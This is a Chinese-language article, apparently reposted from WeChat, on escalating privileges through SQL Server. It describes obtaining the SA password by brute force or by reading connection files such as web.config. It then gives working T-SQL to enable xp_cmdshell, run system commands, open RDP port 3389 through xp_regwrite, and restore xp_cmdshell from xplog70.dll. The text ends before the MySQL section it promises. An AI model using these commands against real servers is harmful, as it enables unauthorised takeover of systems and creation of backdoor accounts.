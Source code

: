 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/\_ivWThY8Iqu6IVQicQPYyw)

在利用系统溢出漏洞无果的情况下，可以尝试采用数据库进行提权。数据库提权的前提条件：拥有数据库最高权限用户密码。除 Access 数据库外，其他数据库基本都存在数据库提权的可能，本文主要针对 SQL server，MySQL 数据库提权进行记录。

SQL server，MySQL 都需要具备数据库管理员权限才可执行提权操作。linux 系统下 mysql root 用户是服务用户，权限不足以提权。Windows 下 mysql root 权限很高，在没有被降权的情况可以进行提权操作。但是 zkeys、宝塔等集成环境默认降权了 root 账号

**SQL server 数据库提权**
====================

**提权流程**：获取 SA 账号 > 远程数据库登录 > 安装提权组件 > 创建账号 > 开启 3389 > 远程系统登录 > 完成  

**一、SA 账号的获取**  
1\. 爆破获取账号密码  
2\. 网站源码，查看数据库连接文件。如 web.config、config.asp、conn.asp、dbconfig.asp。可能得到的账号名称不是 sa，但是具有系统权限。使用数据库软件连接数据库执行系统数据库的操作，若可以操作说明此账号具有 sa 权限。或者利用注入 sqlmap --is-dba 确认是否为 dba 权限。SQL server 默认允许 sa 外链登陆，mysql root 用户默认不允许外链登陆。

**二、提权**

**2.1 允许外联**

xp\_cmdshell 组件默认在 mssql 2000 中是开启的，在 mssql 2005 之后的版本中则默认禁止。拥有管理员 sa 权限则可以用 sp\_configure 开启该组件。  
1\. 使用已经得到的 sa 权限账号远程登录数据库  
2\. 启用 cmd\_shell 执行命令组件：

```
EXEC sp\_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXEC sp\_configure 'xp\_cmdshell', 1
GO
RECONFIGURE
GO
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjRvmofZHlSbwzr8p7rM37gPibI7SXEEH9gWOpSadWDfNp2qqtZhIhRTw/640?wx_fmt=png)  

3\. 组件启用成功，可执行系统命令。在此基础上进行系统账号创建操作：  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjKfvm3Re8ORy8QTMz40LGGTfkvFic2atsiaufTFcEwkcg52or38VBVHXA/640?wx_fmt=png)  
4\. 如果目标机器没有开启 3389，使用以下命令开启 3389  

```
exec master.dbo.xp\_regwrite'HKEY\_LOCAL\_MACHINE','SYSTEM\\CurrentControlSet\\Control\\Terminal Server','fDenyTSConnections','REG\_DWORD',0;--
```

5\. 其他  

```
#停用cmd\_shell执行命令组件
EXEC sp\_configure 'show advanced options', 1
RECONFIGURE
EXEC sp\_configure 'xp\_cmdshell', 0
RECONFIGURE

#执行系统命令
EXEC master.dbo.xp\_cmdshell 'ipconfig'
#关闭3389
exec master.dbo.xp\_regwrite'HKEY\_LOCAL\_MACHINE','SYSTEM\\CurrentControlSet\\Control\\Terminal Server','fDenyTSConnections','REG\_DWORD',1;
#如果xp\_cmdshell被删除了，可以上传xplog70.dll进行恢复
exec master.sys.sp\_addextendedproc 'xp\_cmdshell', 'C:\\Program Files\\Microsoft SQL Server\\MSSQL\\Binn\\xplog70.dll'
```
